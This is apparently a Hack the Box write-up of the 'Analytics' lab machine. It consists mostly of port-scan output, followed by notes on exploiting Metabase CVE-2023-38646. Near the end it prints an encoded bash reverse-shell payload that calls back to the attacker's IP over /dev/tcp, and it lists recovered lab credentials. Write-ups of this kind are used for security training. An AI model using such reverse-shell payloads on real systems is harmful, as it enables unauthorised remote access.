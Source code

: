 # Hack the Box - Analytics

```shell
> rustscan -b 1000 -u 5000 -r 0-65535 -a 10.10.11.233 -- -Pn
```
```shell
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.233:22
Open 10.10.11.233:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:18 EDT
Initiating Connect Scan at 14:18
Scanning analytical.htb (10.10.11.233) [2 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed Connect Scan at 14:18, 0.08s elapsed (2 total ports)
Nmap scan report for analytical.htb (10.10.11.233)
Host is up, received user-set (0.079s latency).
Scanned at 2023-10-11 14:18:03 EDT for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

```shell
> rustscan -u 5000 -p 22,80 -a 10.10.11.233 -- -Pn -sCV
```
```shell
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.233:22
Open 10.10.11.233:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:19 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Initiating Connect Scan at 14:19
Scanning analytical.htb (10.10.11.233) [2 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed Connect Scan at 14:19, 0.08s elapsed (2 total ports)
Initiating Service scan at 14:19
Scanning 2 services on analytical.htb (10.10.11.233)
Completed Service scan at 14:19, 6.17s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.233.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 2.51s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.34s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Nmap scan report for analytical.htb (10.10.11.233)
Host is up, received user-set (0.082s latency).
Scanned at 2023-10-11 14:19:29 EDT for 9s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Analytical
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.68 seconds
```

TCP 80 - HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a7d29d8f-533f-47b7-9bb8-ea8e88ad51f2)

```http
http://data.analytical.htb/auth/login?redirect=%2F
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b2c852d7-68d7-4fa9-ae80-2f23bdd66dc6)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5514d41e-fcac-4f3c-a712-ab91a93c47f7)

Metabase - Remote Code Execution (CVE-2023-38646)
Session Token Leaked
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b701daa7-c72c-4670-b417-eb345356740a)

Test Command Execution
```shell
python -m http.server 80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91e7bbec-50db-44d8-97e7-7b27835991be)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/470a709c-3a69-4aa9-9868-ab9bd8b6c6a7)

Reverse Shell Payload
```shell
bash -c {echo,{payload}|{base64,-d}|{bash,-i}
```

Shell Base64 encoded
```shell
> echo "sh -i >& /dev/tcp/10.10.14.23/1337 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjMvMTMzNyAwPiYxCg==
```

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/74ceef41-77e9-4af1-aea1-7fdbe072dcc7)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0ed2a2c7-e3eb-43f1-afd2-edbbcee86ddb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9336028c-c5ce-4dd0-a10b-b684258108ef)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/fb9de20d-edbd-4769-9a1c-3abbf94fc677)

```shell
creds: metalytics:An4lytics_ds20223#
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/31231793-fd25-4e45-994b-2623f742f1bd)
